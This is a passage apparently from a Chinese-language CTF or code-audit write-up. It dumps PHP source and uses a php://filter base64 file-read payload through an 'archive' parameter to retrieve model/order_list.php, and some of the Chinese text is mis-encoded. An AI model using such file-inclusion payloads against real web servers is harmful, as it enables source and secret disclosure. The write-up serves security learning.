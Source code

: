 ```
  $user = $db->select_one('user',array('id' => $_SESSION['uid']));
  if(!$user)
    alert_goto('?m=login','æ²¡æè¿ä¸ªç¨æ·çè®°å½ï¼è¯·éæ°ç»å½ï¼');
}

if($g_m == 'home'){
  $g_m = 'order';
  $g_o = 'list';
}

$exts = $db->select_date('ext');
foreach($exts as $ext)
  $config['ext'][$ext['id']] = $ext;
foreach($exts as $ext)
  $config['ext'][$ext['code']] = $ext;

$model_file = 'model/'.$g_m.'.php';
if(file_exists($model_file))
  include($model_file);

$operate_file = 'model/'.$g_m."_".$g_o.".php";
if(file_exists($operate_file))
  include($operate_file);

create_html();
?>
```
利用我们一流的代码审计能力，推断一定有一个文件/model/order_list.php

我们来看一下这里头有啥

archive=php://filter/read=convert.base64-encode/resource=/var/www/html/PIzABXDg/model/order_list.php
```
<?php
$operates['list'] = 'é¢çº¦åè¡¨';
$pagenum = empty($g_pagenum) ? 1 : $g_pagenum;
$pagesize = 20;
$limit = (($pagenum - 1) * $pagesize).','.$pagesize;
$orders = $db->select_date('order','','',$limit,'addtime');
if(!$orders)
  $order_list = "<tr><td colspan='7'>ä¸ä¸ªé¢çº¦ä¹æ¨æ~~~~(>_<)~~~~ </td></tr>";
else{
  $order_list = '';
  foreach($orders as $order){
	$orderoperate = "<a href=\"javascript:if(confirm('ç¡®å®å é¤è¯¥é¢çº¦ï¼')) top.location='?m=order&o=delete&id=".$order['id']."'\">å é¤é¢çº¦</a>";
    $order_list .= "<tr>";
    $order_list .= "  <td valign='top'>".$order['id']."</td>";
    $order_list .= "  <td valign='top'><p class=\"name\">".$order['name']."</p></td>";
    $order_list .= "  <td valign='top'>".date('Y-m-d H:i:s',$order['addtime'])."</td>";
    $order_list .= "  <td valign='top'><p class=\"subject\">".$order['subject']."</p></td>";
    $order_list .= "  <td valign='top'><p class=\"note\">".$order['note']."</p></td>";
    $order_list .= "  <td valign='top'>".$order['comedate']."</td>";
    $order_list .= "  <td valign='top'>".$orderoperate."</td>";
    $order_list .= "</tr>";
  }
	$num = get_num('order');
    $pagelinks = create_pagelinks('?m=order&o=list',$num,$pagenum,$pagesize);
    $order_list .= "<tr><td colspan='7'><div class=\"pagelinks\">".$pagelinks."</div></td></tr>";
}


$main_tpl = "order_list.htm";
```